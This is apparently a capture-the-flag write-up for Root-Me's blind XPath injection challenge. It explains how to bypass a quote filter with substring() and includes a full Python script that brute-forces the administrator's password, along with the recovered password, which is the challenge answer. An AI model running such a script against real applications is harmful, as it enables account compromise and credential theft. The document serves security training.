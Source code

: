 # XPath injection - Blind

Based on the Challenge Name, you can see that we will use Blind XPath Injection to solve this problem. You can read more about Blind XPath Injection [here](https://owasp.org/www-community/attacks/Blind_XPath_Injection)

Firstly, the injection point is at the Members section.

<p align="center">
  <img src="https://live.staticflickr.com/65535/51834116972_b840cea7e2_z.jpg" />
</p>

when you access this section and click on any member in the table, the url will look like this: *http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2*

The injection point is the `userid` parameter. You can check by enter `or` operator (|), an error will occur. We can use this to check if our conditional expression is true or not and achive our goal. If our exploit code is true, the page will not display any error. If not, we will see the error sceen. We will use this to blind Xpath Injection.

<p align="center">
  <img src="https://live.staticflickr.com/65535/51835798225_fe1581a2c1_b.jpg" />
</p>

And now we know where should we exploit. I will use it to check for John's password length because he is administrator. 

After check his password length with my exploit code (I will show it at the end of this writeup), i see that John's password length is 14. But after brute-force John's password, its length is actually 13 and I don't know why @@

<p align="center">
  <img src="https://live.staticflickr.com/65535/51835061596_f68fa3113c_b.jpg" />
</p>


And now we know that the password length is 13, we can bruteforce the password. But when you use the substring function with *single quote* or *double quotes*, you will see that they are filter.

<p align="center">
  <img src="https://live.staticflickr.com/65535/51835179303_59abc5e856_b.jpg" />
</p>

Seeing that the single quote and double quotes is filter. Now I'm stuck @@ But after searching about it on Google, I see a way to bypass this filter. You can use substring function and extract many character from the table in Members section, although it's not enough character compare with the alphabet, but it's useful for this challenge.

<p align="center">
  <img src="https://live.staticflickr.com/65535/51835179713_684d757151_z.jpg" />
</p>

You can extract any character in the above table with the substring function. The XML of this table has four tag (i think so :D), which is `<username>` for the Username row, `<email>` for Email row, `<account>` for Account Type row and a hidden tag `<password>` for Password. Example is using `a = substring(//user[userid=2]/account,1,1)` to get the character *a*, because the account type of user who has userid=2 is administrator, and the first character of this string is *a*.

This is my code to exploit this challenge:

```python

import requests
import string
import os

pw_len = 0
pw = ""
url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 and "
for i in range (1,100):
	print("i=" + str(i))
	final_url = url + "string-length(//user[userid=2]/password)=" + str(i)
	res = requests.get(url=final_url)
	if "John's profile" in res.text:
		os.system("clear")
		pw_len = i
		print("Password length is: " + str(i))
		break
	elif i==100:
		print("An error occur!")
#pw length is actually 13, not 14 and I dont know how @@
candidate = {"a": "substring(//user[userid=2]/account,1,1)",
        "b": "substring(//user[userid=1]/account,3,1)",
        "c": "substring(//user[userid=1]/account,5,1)",
        "d": "substring(//user[userid=2]/account,2,1)",
        "e": "substring(//user[userid=1]/account,9,1)",
        "g": "substring(//user[userid=2]/email,12,1)",
        "h": "substring(//user[userid=2]/email,3,1)",
        "i": "substring(//user[userid=3]/username,3,1)",
        "l": "substring(//user[userid=5]/username,2,1)",
        "m": "substring(//user[userid=2]/account,3,1)",
        "n": "substring(//user[userid=2]/username,4,1)",
        "o": "substring(//user[userid=2]/username,2,1)",
        "r": "substring(//user[userid=3]/username,2,1)",
        "s": "substring(//user[userid=1]/email,1,1)",
        "t": "substring(//user[userid=1]/email,2,1)",
        "u": "substring(//user[userid=3]/account,2,1)",
        "v": "substring(//user[userid=1]/username,4,1)",
        "y": "substring(//user[userid=4]/username,5,1)",
        "S": "substring(//user[userid=1]/username,1,1)",
        "J": "substring(//user[userid=2]/username,1,1)",
        "E": "substring(//user[userid=3]/username,1,1)",
        "@": "substring(//user[userid=3]/email,4,1)",
        ".": "substring(//user[userid=3]/email,8,1)",
	"0":"string(0)",
	"1":"string(1)",
	"2":"string(2)",
	"3":"string(3)",
	"4":"string(4)",
	"5":"string(5)",
	"6":"string(6)",
	"7":"string(7)",
	"8":"string(8)",
	"9":"string(9)"
}
for j in range(1,14):
	print("j=" + str(j))
	for key in candidate:
		print("Current key: " + key)
		final_url2 = url + "substring(//user[userid=2]/password," + str(j) + ",1)=" + candidate[key]
		res = requests.get(url = final_url2)
		if "John's profile" in res.text:
			pw += key
			os.system("clear")
			print("Current string: " + pw)
			break
os.system("clear")
print("Password of admin is: " + pw)
#password is ueiJ4a65@1.oS

```

<p align="center">
  <img src="https://live.staticflickr.com/65535/51835417724_bc56e60ceb_z.jpg" />
</p>

Thank for [this page](https://ngaa.tistory.com/18?fbclid=IwAR39JEuheQ2dfykxE61GqKVjX0HN2Uf6DP0KmApusQZE6orURoNcfJPfRoc) and this [Github author](https://github.com/NhatNam-Kyoto/Rootme-Solution/blob/master/Xpath-blind.py?fbclid=IwAR1GcvyiiGSaJJNiU5NKJR7jz4sIZGdnsGyBgqBJ10EHInNq4QlYEUEvdwI), I am able to bruteforce the password and solve this problem.
